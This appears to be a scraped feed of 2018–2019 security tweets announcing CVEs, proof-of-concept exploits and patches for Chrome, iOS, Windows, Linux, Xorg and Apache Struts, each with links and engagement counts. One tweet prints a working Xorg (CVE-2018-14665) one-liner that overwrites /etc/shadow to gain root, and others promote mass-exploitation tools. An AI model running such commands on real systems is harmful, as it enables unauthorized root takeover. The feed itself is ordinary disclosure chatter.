<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1090028823280644096 _at Mon Jan 28 23:28:17 +0000 2019_**
<blockquote>
[PoC] [CVE-2018-18354] Chrome remote code execution attack chain

Ignore Sandbox , Ignore Applock , Ignore download restriction 
combined 3 bugs into logical vulnerability attack chain

https://t.co/IUWnx1mgZM https://t.co/M72aT42a5J
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=889459

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>109</code></td>
<td>Favorites: <code>178</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1087750945272926208 _at Tue Jan 22 16:36:49 +0000 2019_**
<blockquote>
NEW → Critical RCE flaw (CVE-2019-3462) found in #Linux apt/apt-get, which could allow remote MiTM hackers to trick systems into installing altered or malicious packages as #root

https://t.co/MZJwXC1c6Z

Exploitation of such flaw could have been mitigated if APT was using HTTPS https://t.co/8v7qSmUgjb
</blockquote>

* https://thehackernews.com/2019/01/linux-apt-http-hacking.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>36</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>352</code></td>
<td>Favorites: <code>398</code></td>
</tr></table>

---
# RedDrip7
**https://twitter.com/RedDrip7/status/1086592120025042944 _at Sat Jan 19 11:52:03 +0000 2019_**
<blockquote>
#CVE-2018-8453 deep analysis, from Use After Free to arbitrary memory read/write by 360 Threat Intelligence Center, a follow up of vulnerability being used by #FruityArmor group targeting the Middle East.
https://t.co/0noINJnh3c

the video：https://t.co/YoZ3dXjh5W https://t.co/FAmHT5G2yj
</blockquote>

* https://ti.360.net/blog/articles/cve-2018-8453-win32k-elevation-of-privilege-vulnerability-targeting-the-middle-east-en/
* https://video.twimg.com/tweet_video/DxRRn7yV4AAKpFk.mp4

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>86</code></td>
<td>Favorites: <code>159</code></td>
</tr></table>

---
# JailbreakReal
**https://twitter.com/JailbreakReal/status/1083464528010964992 _at Thu Jan 10 20:44:07 +0000 2019_**
<blockquote>
CVE-2018-4420 by @_simo36
POC of iOS kernel UAF
this is fixed on iOS 12.1.
https://t.co/VAJxFtfCYW
#rJailbreakNews #iOS12
</blockquote>

* https://github.com/0x36/CVE-pocs/blob/master/CVE-2018-4420-atm-uaf.c

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---
# _simo36
**https://twitter.com/_simo36/status/1083463346395979783 _at Thu Jan 10 20:39:26 +0000 2019_**
<blockquote>
a POC of an iOS kernel UAF  I found last year, CVE-2018-4420 fixed in 12.1, this requires host_priv port to be triggered. more bugs soon 
https://t.co/3zY4nXTsbF
</blockquote>

* https://github.com/0x36/CVE-pocs/blob/master/CVE-2018-4420-atm-uaf.c

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>150</code></td>
<td>Favorites: <code>363</code></td>
</tr></table>

---
# Mimecast
**https://twitter.com/Mimecast/status/1082718864088150017 _at Tue Jan 08 19:21:07 +0000 2019_**
<blockquote>
Understand the security implications of the latest patched #MSOffice product memory leak vulnerability. https://t.co/zKXictP32S   #patchtuesday CVE-2019-0560 https://t.co/MhenJBltde
</blockquote>

* https://mim.ec/2SIDzQ1

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>18</code></td>
</tr></table>

---
# n0x08
**https://twitter.com/n0x08/status/1082712033974349824 _at Tue Jan 08 18:53:59 +0000 2019_**
<blockquote>
Happy 1st Patch Tuesday of 2019! This is the largest January update I've seen in the 3ish years I've worked in MSRC and all the usual suspects are represented plus some Hyper-V fixes and this months highest CVSS score: CVE-2019-0547 which is a.....
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1081109879031513088 _at Fri Jan 04 08:47:35 +0000 2019_**
<blockquote>
Exploit/writeup for Google Chrome V8 Remote Code Execution Vulnerability by Samuel Gross (CVE-2018-17463):
https://t.co/9gm0qPK4Z3
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=888923

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>139</code></td>
</tr></table>

---
# orange_8361
**https://twitter.com/orange_8361/status/1075492505657925632 _at Wed Dec 19 20:46:09 +0000 2018_**
<blockquote>
Have Just reported an interesting pre-auth(with Overall/Read) RCE to Jenkins! (But if this chained with the bug CVE-2018-1000861 I reported before, it could execute arbitrary code without any ACL restrictions)
Will post a blog soon after all the responsible disclosure process :P
</blockquote>

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>133</code></td>
<td>Favorites: <code>556</code></td>
</tr></table>

---
# anttitikkanen
**https://twitter.com/anttitikkanen/status/1075461129659387904 _at Wed Dec 19 18:41:29 +0000 2018_**
<blockquote>
Patch for CVE-2018-8653 Scripting Engine Memory Corruption Vulnerability is out: https://t.co/fTINi4Ol5o Spotted in the wild by @_clem1.
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8653

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# FCE365
**https://twitter.com/FCE365/status/1071173814720098305 _at Fri Dec 07 22:45:13 +0000 2018_**
<blockquote>
Hmm, LinusHenze's webkit exploit seems to have a quite interesting potential, especially since exploitation is similar to CVE-2018-4233 which =&gt; arbitrary memory read/write =&gt; SandBox Escape. Linus' exploit works on iOS 12.1.1 and lower.
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>107</code></td>
</tr></table>

---
# Windowsrcer
**https://twitter.com/Windowsrcer/status/1071141149031559168 _at Fri Dec 07 20:35:25 +0000 2018_**
<blockquote>
CVE-2018-8357: Windows / Microsoft Edge / Internet Explorer Sandbox Escape (EoP) Vulnerability using old but gold XAML extension.

POC:

https://t.co/PkgNWZTbeJ

Figure out XAML part yourself ;-) one can find pretty easily, code says itself.
</blockquote>

* https://pastebin.com/raw/wfNjzQM9

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1070643411785564161 _at Thu Dec 06 11:37:35 +0000 2018_**
<blockquote>
Researchers spotted a new #Adobe Flash Player zero-day exploit (CVE-2018-15982) that is leveraging #Microsoft Office docs in a targeted campaign against Russian State Healthcare Institution.

https://t.co/RmVtN594z0

Adobe has yesterday released an emergency update to patch it. https://t.co/igRAJgSMLn
</blockquote>

* https://thehackernews.com/2018/12/flash-player-vulnerability.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>168</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---
# GossiTheDog
**https://twitter.com/GossiTheDog/status/1070641286049398784 _at Thu Dec 06 11:29:08 +0000 2018_**
<blockquote>
CVE-2018-15982 (Adobe Flash 0day from Hacking Team) will lead to mass exploitation of endpoints via browsing and Office docs.  It's trivial to modify the sample found in the wild to do other stuff.
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>108</code></td>
</tr></table>

---
# ScottyBauer1
**https://twitter.com/ScottyBauer1/status/1069717108672598019 _at Mon Dec 03 22:16:47 +0000 2018_**
<blockquote>
The last 3 public security bugs I will have for awhile were released today:
Bluetooth Heap info disclosure: CVE-2018-9566
Bluetooth RCE: CVE-2018-9555 
NFC RCE: CVE-2018-9558
https://t.co/IVFwLVgFF5:
https://t.co/ojRXHFxpoV

https://t.co/OMfw5rFpl8

https://t.co/gLarrCPPZX
</blockquote>

* https://source.android.com/security/bulletin/2018-12-01
* https://android.googlesource.com/platform/system/bt/+/8c1d4c1ddd80e60b816ea8c2fff79806fe5f4edf%5E%21/#F0
* https://android.googlesource.com/platform/system/bt/+/82ef3ceb978fd5d95a310ff555d42b271dae530a%5E%21/#F0
* https://android.googlesource.com/platform/system/nfc/+/31d0af9321bc78b264b7774d2825cb084980ea2e%5E%21/#F0

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>137</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1069495930158804992 _at Mon Dec 03 07:37:54 +0000 2018_**
<blockquote>
[Sandbox Escape] Detail/PoC of Apple iOS/macOS QuartzCore Heap-based Buffer Overflow Vulnerability (CVE-2018-4415) by securiteam SSD:
https://t.co/8yyVSXceM6
</blockquote>

* https://blogs.securiteam.com/index.php/archives/3796

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>104</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1069354819284946946 _at Sun Dec 02 22:17:11 +0000 2018_**
<blockquote>
GitHub - r3dxpl0it/Apache-Superset-Remote-Code-Execution-PoC-CVE-2018-8021-: CVE-2018-8021 Proof-Of-Concept and Exploit https://t.co/sSKvdlk9oY
</blockquote>

* https://github.com/r3dxpl0it/Apache-Superset-Remote-Code-Execution-PoC-CVE-2018-8021-/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>113</code></td>
<td>Favorites: <code>158</code></td>
</tr></table>

---
# realBrightiup
**https://twitter.com/realBrightiup/status/1067635421683675136 _at Wed Nov 28 04:24:54 +0000 2018_**
<blockquote>
Just release the PoC of CVE-2018-4415 and will talk more about CoreAnimation. 
https://t.co/i0uBHCM2wW
</blockquote>

* https://brightiup.me/QuartzCore/FunctionIntOverFlow.c

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1060419986202746880 _at Thu Nov 08 06:33:21 +0000 2018_**
<blockquote>
Google Chrome on iOS Iframe Sandbox Escape Vulnerability (CVE-2018-17472):
https://t.co/93o1jPPS9m
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=822518

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---
# _Icewall
**https://twitter.com/_Icewall/status/1058019779209056262 _at Thu Nov 01 15:35:47 +0000 2018_**
<blockquote>
Promised, full exploitation  process of : TALOS-2018-0636 (CVE-2018-3971) -HitmanPro.Alert hmpalert Privilege Escalation Vulnerability https://t.co/sAlTcjUM7s . A.k.a how to use 0day in anti-0day product bypassing its LPE protection to gain SYSTEM.
</blockquote>

* https://blog.talosintelligence.com/2018/11/TALOS-2018-0636.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>172</code></td>
<td>Favorites: <code>217</code></td>
</tr></table>

---
# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055568290112831490 _at Thu Oct 25 21:14:26 +0000 2018_**
<blockquote>
OpenBSD #0day Xorg LPE via CVE-2018-14665 can be triggered from a remote SSH session, does not need to be on a local console. An attacker can literally take over impacted systems with 3 commands or less. exploit https://t.co/3FqgJPeCvO 🙄 https://t.co/8HCBXwBj5M
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>24</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>425</code></td>
<td>Favorites: <code>548</code></td>
</tr></table>

---
# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055555359060807680 _at Thu Oct 25 20:23:03 +0000 2018_**
<blockquote>
Here is an exploit using CVE-2018-14665 to get local root for @openbsd - a 0day in 6.4 stable atm https://t.co/3FqgJPwdnm #hacktheplanet https://t.co/GSiKrjFLAg
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>80</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---
# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055517801224396800 _at Thu Oct 25 17:53:49 +0000 2018_**
<blockquote>
#CVE-2018-14665 - a LPE exploit via https://t.co/eax3fvaAjE fits in a tweet

cd /etc; Xorg -fp "root::16431:0:99999:7:::"  -logfile shadow  :1;su

Overwrite shadow (or any) file on most Linux, get root privileges. *BSD and any other Xorg desktop also affected.
</blockquote>

* http://X.org

<table><tr>
<td>Quotes: <code>64</code></td>
<td>Replies: <code>25</code></td>
<td>Retweets: <code>956</code></td>
<td>Favorites: <code>1380</code></td>
</tr></table>

---
# x0rz
**https://twitter.com/x0rz/status/1055467476560031749 _at Thu Oct 25 14:33:50 +0000 2018_**
<blockquote>
Technical Rundown of WebExec (CVE-2018-15442) - Cisco Webex Meetings Desktop App for Windows RCE with SYSTEM privileges https://t.co/lF4sJBfxs7 #WebExec #vulnerability https://t.co/cqK0FFw5rY
</blockquote>

* https://blog.skullsecurity.org/2018/technical-rundown-of-webexec

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>144</code></td>
<td>Favorites: <code>191</code></td>
</tr></table>

---
# hkashfi
**https://twitter.com/hkashfi/status/1050164602527473666 _at Wed Oct 10 23:22:07 +0000 2018_**
<blockquote>
CVE-2018-8265 and CVE-2018-8493 will keep a lot of people busy this month! Remote TCP/IP stack info disclosure &amp; RCE on Exchange via an email. The Exchange bug, if reliable, is WAY more troublesome.
</blockquote>

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>180</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1044923936314675200 _at Wed Sep 26 12:17:34 +0000 2018_**
<blockquote>
New #Linux Kernel Root Privilege-Escalation #Vulnerability (CVE-2018-14634) Affects Red Hat, #CentOS, and Debian Operating Systems

https://t.co/QaJXB2DZq9

Proof-of-Concept Exploits Released. https://t.co/5nbpdNDfsl
</blockquote>

* https://thehackernews.com/2018/09/linux-kernel-vulnerability.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>23</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>480</code></td>
<td>Favorites: <code>445</code></td>
</tr></table>

---
# pozdnychev
**https://twitter.com/pozdnychev/status/1044636342590873600 _at Tue Sep 25 17:14:47 +0000 2018_**
<blockquote>
Qualys Security Advisory Team - Mutagen Astronomy:  Integer overflow in Linux's create_elf_tables(), CVE-2018-14634.  LPE (full root) from a suid-root binary.  RHEL, CentOS and Debian 8 are vulnerable.  Advisory, PoC and exploit at: https://t.co/mpqAXepCAQ
</blockquote>

* https://www.openwall.com/lists/oss-security/2018/09/25/4

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---
# matteyeux
**https://twitter.com/matteyeux/status/1043066711958872064 _at Fri Sep 21 09:17:38 +0000 2018_**
<blockquote>
CVE-2018-4280: Mach port replacement vulnerability in launchd on iOS 11.2.6 leading to sandbox escape, privilege escalation, and codesigning bypass.
https://t.co/nEnTaaiTeB
</blockquote>

* https://github.com/bazad/blanket

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>252</code></td>
</tr></table>

---
# Nettitude_Labs
**https://twitter.com/Nettitude_Labs/status/1039858773903462400 _at Wed Sep 12 12:50:25 +0000 2018_**
<blockquote>
CVE-2018-5240: Symantec Management Agent (Altiris) Privilege Escalation by @benpturner 😀 Full analysis and proof of concept included. https://t.co/7zSjmY9FEX
</blockquote>

* https://labs.nettitude.com/blog/cve-2018-5240-symantec-management-agent-altiris-privilege-escalation/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>126</code></td>
<td>Favorites: <code>132</code></td>
</tr></table>

---
# kmkz_security
**https://twitter.com/kmkz_security/status/1039767580163096576 _at Wed Sep 12 06:48:03 +0000 2018_**
<blockquote>
CVE-2018-8420 Aka #Microsoft XML Core Services MSXML #RCE through web browser PoC (included in yesterday MS patches)
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>154</code></td>
<td>Favorites: <code>247</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1039757886258393093 _at Wed Sep 12 06:09:32 +0000 2018_**
<blockquote>
GitHub - Theropord/CVE-2018-8420 https://t.co/91pxD1wyQp
</blockquote>

* https://github.com/Theropord/CVE-2018-8420/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>87</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1039563472827244544 _at Tue Sep 11 17:17:00 +0000 2018_**
<blockquote>
Strange. @Adobe's advisory says CVE-2018-15967 is privilege escalation (information disclosure) issue and important in severity.

Whereas, @Microsoft's advisory says CVE-2018-15967 is a remote code execution bug with critical severity.
</blockquote>

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>73</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---
# vysecurity
**https://twitter.com/vysecurity/status/1038120201236111360 _at Fri Sep 07 17:41:57 +0000 2018_**
<blockquote>
CVE-2018-8120 Windows LPE PoC https://t.co/9DukP6tAVo
</blockquote>

* https://github.com/alpha1ab/CVE-2018-8120/tree/master/CVE-2018-8120

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>113</code></td>
<td>Favorites: <code>198</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1035056193989947392 _at Thu Aug 30 06:46:41 +0000 2018_**
<blockquote>
Hacker releases a simple tool that automatically finds vulnerable Apache Struts servers using Shodan API and performs mass exploitation via recently disclosed RCE (CVE-2018-11776) exploit

https://t.co/0Bd3aGLuZe via @037 https://t.co/SadelFQ1Zh
</blockquote>

* https://github.com/649/Apache-Struts-Shodan-Exploit

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>400</code></td>
<td>Favorites: <code>523</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1034121687288164352 _at Mon Aug 27 16:53:17 +0000 2018_**
<blockquote>
A hacker has released an automated exploitation tool for 3 #ApacheStruts vulnerabilities, including the latest RCE flaw

https://t.co/WK1U78N9Hz

✔ CVE-2013-2251
✔ CVE-2017-5638
✔ CVE-2018-11776 https://t.co/fkc4aFMhOs
</blockquote>

* https://github.com/s1kr10s/Apache-Struts-v3

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>367</code></td>
<td>Favorites: <code>516</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1033953024664920065 _at Mon Aug 27 05:43:05 +0000 2018_**
<blockquote>
[Sandbox Escape] Google Chrome IndexedDBConnection Use-after-free Vulnerability (CVE-2018-6127):
https://t.co/ktHXyilwlN
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=842990

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# HackSysTeam
**https://twitter.com/HackSysTeam/status/1029753346813509632 _at Wed Aug 15 15:35:04 +0000 2018_**
<blockquote>
Microsoft patched one of our JScript bug which could lead to RCE and LPE on Windows as CVE-2018-8389
https://t.co/00wmlxmZsy
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8389

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---
# _bazad
**https://twitter.com/_bazad/status/1023981959519694848 _at Mon Jul 30 17:21:38 +0000 2018_**
<blockquote>
I'll be presenting "Crashing to root: How to escape the iOS sandbox using abort()" at @bevxcon this September. I'll show how to exploit CVE-2018-4280, fixed in iOS 11.4.1, by crashing maliciously in order to elevate privileges, defeat codesigning, and spawn a shell on iOS 11.2.6. https://t.co/tRxLqD55fY
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>26</code></td>
<td>Retweets: <code>316</code></td>
<td>Favorites: <code>978</code></td>
</tr></table>

---
# ddouhine
**https://twitter.com/ddouhine/status/1019898366996680705 _at Thu Jul 19 10:54:54 +0000 2018_**
<blockquote>
Update VLC ! Incoming #metasploit exploit targeting a UAF in VideoLAN VLC media player &lt;= 2.2.8 ! CVE-2018-11529 discovered and exploited by Eugene Ng and module coded by Winston Ho. I guess sharing this on Torrent will pop a few shells ;) https://t.co/CiKuiAtK0q https://t.co/p61iqjFdJF
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/10335

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>495</code></td>
<td>Favorites: <code>583</code></td>
</tr></table>

---
# _odisseus
**https://twitter.com/_odisseus/status/1014750957459165189 _at Thu Jul 05 06:00:56 +0000 2018_**
<blockquote>
The CVE-2018-8174 is new 0-day vulnerability for Internet Explorer which uses a well-known technique from the exploit CVE-2014-6332.
Check the code and disassembled p-code used to exploit use-after-free (UAF) vulnerability. By @oct0xor. cc: @binitamshah 
https://t.co/BVgjvhXOgz https://t.co/aHx5eg2eXZ
</blockquote>

* https://securelist.com/delving-deep-into-vbscript-analysis-of-cve-2018-8174-exploitation/86333/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---
# InQuest
**https://twitter.com/InQuest/status/1014149070355648513 _at Tue Jul 03 14:09:15 +0000 2018_**
<blockquote>
Solid work from @kaspersky researcher @oct0xor on the p-code level dissection of the CVE-2018-8174 IE/VBScript UAF vulnerability. Includes write-up (https://t.co/3ySnbD6JcL) and IDA / WinDbg runtime instrumentation scripts (https://t.co/VFPkZDzhho). https://t.co/A0xp8brE0K
</blockquote>

* https://securelist.com/delving-deep-into-vbscript-analysis-of-cve-2018-8174-exploitation/86333/
* https://github.com/KasperskyLab/VBscriptInternals

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1012638938014605312 _at Fri Jun 29 10:08:31 +0000 2018_**
<blockquote>
Poc/Details of Microsoft Edge Chakra Engine JIT Use-after-free Vulnerability by fortinet (CVE-2018-0946):
https://t.co/orvqaCjk0l
</blockquote>

* https://www.fortinet.com/blog/threat-research/an-analysis-of-the-use-after-free-bug-in-microsoft-edge-chakra-engine.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/1007865584875397120 _at Sat Jun 16 06:00:55 +0000 2018_**
<blockquote>
Microsoft COM for Windows Remote Code Execution Vulnerability (CVE-2018-0824) Analysis and PoC
https://t.co/ndbJ5pIalp
</blockquote>

* https://codewhitesec.blogspot.com/2018/06/cve-2018-0624.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
